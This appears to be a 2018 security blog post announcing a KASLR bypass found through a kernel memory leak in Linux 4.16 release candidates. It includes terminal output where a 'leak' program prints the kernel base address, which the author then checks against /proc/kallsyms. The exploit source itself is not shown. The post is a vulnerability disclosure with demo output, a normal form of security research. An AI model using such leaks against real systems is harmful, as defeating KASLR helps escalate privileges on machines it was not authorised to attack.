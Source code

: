 ```yaml
---
title: LK v4.16.x KASLR Bypass
date: 2018-07-20
update: 2018-07-20
tags:
  - Security
  - Linux-Kernel
keywords:
  - 0-day
---
```


## TL;DR

About my recent founds :)

I found a bug, memory leak on v4.16.0-rc5. (KASLR Bypass). Maybe, it works on many LKs (i didn't check all of them yet).

(Of course, it's not kptr_restrict stuff :))

Except this, there're some bugs, also memleak. But i didn't make them into useful codes :).

## Demo Screen...

![leak](poc.jpg)

```c
zero@zer0day:/tmp$ uname -a
Linux zer0day 4.16.0-rc5+ #19 SMP Sun Mar 18 20:44:40 KST 2018 x86_64 GNU/Linux
zero@zer0day:/tmp$ ./leak
zero@zer0day:/tmp$ ./leak 1
[+] Found Kernel Base Address!
[+] kbase : 0xffffffff89e00000
zero@zer0day:/tmp$ su
root@zer0day:/tmp# cat /proc/kallsyms | grep _text | head -n 1
ffffffff89e00000 T _text
root@zer0day:/tmp#
```

[+] Today (2018-03-29), found another kaslr bypass (kaddr leak), but it seemed to be weird...

```c
zero@zer0day:/tmp$ ./leak
...
zero@zer0day:/tmp$ ./leak 1
[+] Found Kernel Base Address!
[+] kbase : 0xffffffffb2600000
zero@zer0day:/tmp$ ls
leak  leak.c
zero@zer0day:/tmp$ su
root@zer0day:/tmp# cat /proc/kallsyms | grep _text | head -n 1
ffffffffb2600000 T _text
root@zer0day:/tmp# uname -a
Linux zer0day 4.16.0-rc7+ #22 SMP Thu Mar 29 16:46:52 KST 2018 x86_64 GNU/Linux
```

**End**
